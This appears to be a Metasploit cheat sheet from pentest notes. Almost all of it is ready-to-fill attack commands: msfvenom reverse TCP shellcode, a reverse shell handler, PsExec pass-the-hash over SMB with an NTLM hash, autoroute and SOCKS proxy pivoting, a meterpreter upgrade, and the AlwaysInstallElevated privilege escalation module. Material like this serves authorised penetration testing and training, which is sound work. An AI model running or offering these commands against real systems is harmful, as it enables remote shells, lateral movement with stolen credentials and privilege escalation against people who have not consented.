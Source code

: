 # Metasploit

## msfvenom
### Reverse TCP Shellcode
```bash
msfvenom -p <payload> LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f <format>
```

## msfconsole

### Start Console
```
msfconsole
```

### Reverse Shell Handler
```msfconsole
use multi/handler
set payload <payload>
set LHOST 0.0.0.0
set LPORT 443
exploit
```

### PsExec
```msfconsole
use windows/smb/psexec
set RHOSTS 192.168.1.1
set SMBDomain <domain>
set SMBPass 00000000000000000000000000000000:<hash>
set SMBUser <user>
set LHOST 0.0.0.0
set LPORT 443
exploit
```

### SOCK Proxy
```msfconsole
use multi/manage/autoroute
route add 192.168.1.0 255.255.255.0 1
use auxiliary/server/socks_proxy
run
```

### Upgrade to meterpreter
```msfconsole
sessions -u <id>
```

### AlwaysInstallElevated
```msfconsole
use exploit/windows/local/always_install_elevated
set LHOST <lhost>
set LPORT 443
set payload windows/x64/meterpreter/reverse_tcp
set session <id>
run
```